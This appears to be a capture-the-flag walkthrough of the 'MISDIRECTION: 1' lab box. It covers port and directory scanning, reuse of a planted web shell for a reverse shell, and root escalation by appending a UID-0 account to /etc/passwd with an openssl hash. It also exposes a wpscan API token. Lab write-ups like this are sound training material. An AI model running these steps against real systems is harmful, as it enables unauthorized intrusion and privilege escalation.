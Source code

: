 # MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`

![964ae28c347ea800c0ca3cb1af9404fc.png](./_resources/f8184439c1bc485198e1fbabbc256194.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`
![c0118f47fe3f23543752037d1cd3819a.png](./_resources/4482c4bf993e417685148f57d11af681.png)

`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`

You will need grep data that not contain 400 status code:

![57f359a1ac8c6bb2a67ff4619507d0be.png](./_resources/cf75231c96414c28b812d0e075b996fa.png)

### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`

  It shows us the app version:
![e0e864b44d766ba704d46023ccf3cbee.png](./_resources/898f5658981f44ad835074360dc57734.png)

### 3.3.3 Web2py exploit (but not usable)
![1c2993967314b90787c70b7e71328f70.png](./_resources/db6e6e2312d44a9bb5285d93f093f2e3.png)

## 1.4 Web 8080
### 1.4.1 Dirb
![8d73d362506f8d8a4312bbd596efd2a3.png](./_resources/e1b093ad4cea4cd0b9eef71ba3285f35.png)

Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)
![b83066b3a593994bb2a59b4bf2fea860.png](./_resources/7b7b9241d3f5418ba9fbc2194d746a33.png)
Here we have a web shell previously uploaded by an attacker. I will use it.


# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:

![ff339e186917b0d67b44f0eccb33c84a.png](./_resources/30d8685843284d37ad9ed3289aa98dbb.png)


# 3 Post-exploitation
LinEnum returns some information:
![794419220afc11924c878cccbaad64b2.png](./_resources/4f318c4c53854d73ac64ab2049a9b0fa.png)
![bcabaf737f7668b53158a3050497cad8.png](./_resources/182c1ba93b234e8698ff7261c793c224.png)

## 3.1 First user
`sudo -u brexit /bin/bash`

![928841574ea280986c8302033b2610e6.png](./_resources/dbdf0674767b42d2be38840ba5075579.png)

## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`
![2016a7f9e96d0bba799880d83c8b9a24.png](./_resources/80bcb574c6ff4cad840f3f9e52854a92.png)

With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`

obs: Its necessary to use single quotes, or the new user is not added.

![c822d5c8d2b6c604aa7e0bfa3ca82185.png](./_resources/483d8f387d9f4c9c90c9eed9ec538208.png)
